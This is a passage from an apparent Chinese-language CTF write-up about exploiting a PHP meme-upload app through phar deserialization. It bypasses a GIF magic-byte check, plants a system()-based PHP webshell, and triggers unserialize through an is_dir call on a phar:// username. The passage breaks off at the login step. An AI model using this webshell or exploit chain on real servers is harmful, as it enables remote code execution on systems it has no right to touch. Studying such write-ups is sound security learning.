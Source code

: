 另外，我們看看 `libc.php` 的 `Meme` 類別：

```php=
class Meme
{
    public $title;
    public $author;
    public $filename;
    private $content = NULL;
    function __construct($title, $author, $content = NULL)
    {
        $this->title = $title;
        $this->author = $author;
        $this->content = $content;
        $this->filename = "images/$author/$title.gif";
    }
    function __destruct()
    {
        if ($this->content != NULL)
            file_put_contents($this->filename, $this->content);
    }
}
```

我們可以看到 `Meme` 類別有許多 magic method，馬上聯想到 deserialization 的漏洞。不過看來看去哪裡都沒有 `unserialize` 的程式碼出現，因此我們必須想其他辦法觸發 `unserialize` 。

我們剛剛提到 `$_POST['username']` 及 `$_POST['title']` 可以涵蓋特殊字元。因此，`$this->filename = "images/$author/$title.gif"` 是可控的。於是，我們可以將 `$title` 傳入 `attack.phar`，`$author` 隨便，叫 `yahallo` 好了。然後，我們精心構造 phar 檔想辦法去觸發 `Meme` 類別的 `unserialize`。如果可以觸發 `unserialize`，`Meme` 類別的
`$this->title`、`$this->author`、`$this->content`、以及 `$this->filename` 都將是可控的。

不過，有一個限制是必須繞過的。`exif_imagetype($tmp_name) === IMAGETYPE_GIF` 會檢查 magic number。而 GIF 的 magic number 是 GIF89a 或 GIF87a。因此，phar 檔的前 6 個 byte 必須符合 GIF89a 或 GIF87a。

除此之外，伺服器的 `image` 目錄是可寫的，因此我希望 unserialize 的 Meme class 可以寫入 PHP webshell。於是我們必須設定將 `$this->filename` 設為 `/var/www/html/images/yahallo/shell.php`，`$this->content` 設為 `<?= system($_GET["a"]) ?>`。

詳細的 phar 製作程式碼參閱 `make_pharfile.php`，用法如下：
```bash
php make_pharfile.php
```

執行完後會產出一個 phar file `attack.phar.gif`。接著，將精心設計好的 phar 檔 `attack.phar.gif` 上傳到 `images/yahallo` 中。server 沒有檢查上傳檔案的副檔名，因此上傳檔案的名字不重要，重點是 meme title 要是 `attack.phar`，這樣 server 才會幫你存成 `attack.phar.gif`。(實驗證實 `phar://` protocol 會將 `attack.phar.gif` 當成是 phar 喔)：

![](https://i.imgur.com/iZY05tu.png)

接下來，想辦法觸發 `unserialize`。想了很久都想不到，後來實驗許久後發現 `is_dir` 會觸發 `unserialize`，(我太菜了 Orz)。看看 User 類別：
```php=
class User
{
    public $username;
    function __construct($username, $directory=".") {
        chdir($directory);
        if(!is_dir($username)) mkdir($username);
        $this->username = $_SESSION['username'] = $username;
        chdir($_SERVER["DOCUMENT_ROOT"]);
    }
    function __toString()
    {
        return htmlentities($this->username);
    }
}
```
既然 `$username` 可控，且可以含有特殊字元，把 `$username` 設成 `phar:///var/www/html/images/yahallo/attack.phar.gif` 即可。因此，把 cookie 刪掉重新登入，以 `phar:///var/www/html/images/yahallo/attack.phar.gif` 這個使用者登入：
